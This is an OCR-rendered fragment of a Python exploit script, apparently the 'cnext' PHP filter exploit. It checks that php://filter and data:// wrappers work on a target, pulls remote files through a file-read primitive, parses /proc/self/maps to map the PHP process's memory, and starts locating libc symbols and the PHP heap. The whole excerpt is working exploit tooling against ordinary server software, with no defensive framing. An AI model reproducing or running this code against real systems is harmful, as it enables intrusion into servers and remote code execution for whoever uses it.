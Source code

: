 ```python

        msg_info("The [i]data://[/] wrapper works")

        text = tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        # text = tf.random.string(50)
        # base64 = b64(compress(text.encode()), misalign=True).decode()
        # path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        # if not check_token(text, path):
        #     failure("The [i]zlib[/] extension is not enabled")

        # msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.get_file("/proc/self/maps")
        maps = maps.decode()
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                print(maps)
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()

        LIBC_FILE = "/dev/shm/cnext-libc"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)
```